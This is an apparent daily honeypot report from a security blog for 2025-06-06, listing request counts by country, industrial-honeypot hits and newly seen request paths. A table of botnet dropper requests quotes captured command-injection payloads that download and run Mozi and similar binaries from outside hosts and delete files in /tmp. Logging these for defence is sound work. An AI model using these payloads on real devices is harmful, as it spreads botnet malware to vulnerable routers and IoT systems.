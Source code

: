 ```yaml
---
title: "Report: 2025-06-06 "
date: 2025-06-06
desciption: "Report: 2025-06-06" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-06 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 6 dropper URL(s).  

There are 19 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 847 requests were recorded during the day, originating from 6 different countries, with a peak of 208 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| DE               | Germany            |
| US               | Germany            |
| BR               | Germany            |
| US               | Germany            |
| SG               | Germany            |
| DE               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                     |
|:----------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 116.97.180.214  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.153.34.62/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                   |
| 45.115.89.82    | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                   |
| 103.207.125.92  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                       |
| 117.199.229.195 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                  |
| 141.98.11.147   | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3Bkillall -9 arm7%3B%20wget%20http%3A%2F%2F94.26.90.251%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |
| 141.98.11.147   | pingAddr=%7cecho%20%24(cd%20%2Ftmp%3B%20wget%20http%3A%2F%2F94.26.90.251%2Fmips%3B%20chmod%20777%20mips%3B%20.%2Fmips%20xpon)&wanif=130816                                                                  |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                 |
|----:|----------------------:|:--------------------------------------------------------|
|  32 |                     3 | GET /userRpmNatDebugRpm26525557/start_art.html HTTP/1.1 |
|  41 |                     3 | Get /login.asp HTTP/1.1                                 |
|  44 |                     3 | POST /boaform/Ping6Config HTTP/1.1                      |
| 116 |                     1 | GET /Templates/LoginPage.html/env HTTP/1.0              |
| 133 |                     1 | GET /wwwSiemens/actuator/env HTTP/1.1                   |
| 147 |                     1 | GET /XCmU HTTP/1.1                                      |
| 148 |                     1 | GET /2bdd HTTP/1.1                                      |
| 171 |                     1 | GET /Odin/http/call1749189596 HTTP/1.1                  |
| 172 |                     1 | GET /OdinHttpCall1749189596 HTTP/1.1                    |
| 173 |                     1 | GET /odinhttpcall1749189596 HTTP/1.1                    |
| 190 |                     1 | GET /php/login.php HTTP/1.1                             |
| 222 |                     1 | GET /Odin/http/call1749185871 HTTP/1.1                  |
| 223 |                     1 | GET /OdinHttpCall1749185871 HTTP/1.1                    |
| 224 |                     1 | GET /odinhttpcall1749185871 HTTP/1.1                    |
| 238 |                     1 | GET /php_info HTTP/1.1                                  |
| 275 |                     1 | GET /FormLogin/env HTTP/1.1                             |
| 288 |                     1 | GET /FormLogin/actuator/env HTTP/1.1                    |
| 289 |                     1 | GET /Templates/LoginPage.html/actuator/env HTTP/1.0     |
| 290 |                     1 | GET /wwwSiemens/env HTTP/1.1                            |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   208 | US                 |
|  1 |                   145 | BG                 |
|  2 |                   102 | DE                 |
|  3 |                    85 | NL                 |
|  4 |                    42 | JP                 |
|  5 |                    34 | GB                 |
|  6 |                    25 | LT                 |
|  7 |                    20 | NG                 |
|  8 |                    16 | SC                 |
|  9 |                    15 | BD                 |
| 10 |                    14 | PL                 |
| 11 |                    11 | CA                 |
| 12 |                    10 | GH                 |
| 13 |                    10 | FR                 |
| 14 |                     9 | UA                 |
| 15 |                     8 | CH                 |
| 16 |                     8 | SG                 |
| 17 |                     7 | PT                 |
| 18 |                     6 | IN                 |
| 19 |                     6 | HK                 |
| 20 |                     6 | KR                 |
| 21 |                     6 | MX                 |
| 22 |                     5 | ZA                 |
| 23 |                     5 | VN                 |
| 24 |                     5 | BE                 |
| 25 |                     4 | TR                 |
| 26 |                     4 | IL                 |
| 27 |                     4 | ES                 |
| 28 |                     4 | RU                 |
| 29 |                     3 | ID                 |
| 30 |                     3 | BR                 |
| 31 |                     3 | KZ                 |
| 32 |                     2 | BY                 |
| 33 |                     2 | AO                 |
| 34 |                     2 | KW                 |
| 35 |                     2 | PA                 |
| 36 |                     2 | IE                 |
| 37 |                     1 | MC                 |
| 38 |                     1 | IR                 |
| 39 |                     1 | CN                 |
| 40 |                     1 | DK                 |
